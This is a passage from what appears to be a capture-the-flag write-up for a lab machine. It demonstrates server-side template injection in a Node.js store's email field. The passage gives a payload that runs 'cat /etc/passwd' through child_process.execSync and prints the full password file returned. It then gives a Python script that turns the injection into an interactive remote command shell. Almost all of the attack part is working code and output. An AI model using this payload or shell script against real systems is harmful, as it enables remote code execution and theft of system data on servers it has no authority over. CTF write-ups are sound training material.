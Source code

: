I proceed to read `/etc/passwd` with the following payload:
```json
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('cat /etc/passwd')\")()}}"}
```

Response:
```json
{"response":"You will receive updates on the following email address: root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nsystemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:103:106::/nonexistent:/usr/sbin/nologin\nsyslog:x:104:110::/home/syslog:/usr/sbin/nologin\n_apt:x:105:65534::/nonexistent:/usr/sbin/nologin\ntss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false\nuuidd:x:107:112::/run/uuidd:/usr/sbin/nologin\ntcpdump:x:108:113::/nonexistent:/usr/sbin/nologin\nlandscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin\npollinate:x:110:1::/var/cache/pollinate:/bin/false\nusbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin\nsshd:x:112:65534::/run/sshd:/usr/sbin/nologin\nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin\ndavid:x:1000:1000:david:/home/david:/bin/bash\nlxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false\nrtkit:x:113:117:RealtimeKit,,,:/proc:/usr/sbin/nologin\ndnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin\ngeoclue:x:115:120::/var/lib/geoclue:/usr/sbin/nologin\navahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin\ncups-pk-helper:x:117:123:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin\nsaned:x:118:124::/var/lib/saned:/usr/sbin/nologin\ncolord:x:119:125:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin\npulse:x:120:126:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin\nmysql:x:121:128:MySQL Server,,,:/nonexistent:/bin/false\n."}
```

It is very messy, so I've written a simple python script to make it easier to read, `read.py`:
```python
#!/usr/bin/env python3

import requests
import json
import warnings
warnings.filterwarnings("ignore")

url = "https://store.nunchucks.htb/api/submit"

while True:
	cmd = input("$ ")
	data = {"email": "{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('" + cmd + "')\")()}}"}
	response = requests.post(url, data=data, verify=False)
	output = response.json()["response"].split("You will receive updates on the following email address: ")[1][:-1]
	print(output)
```
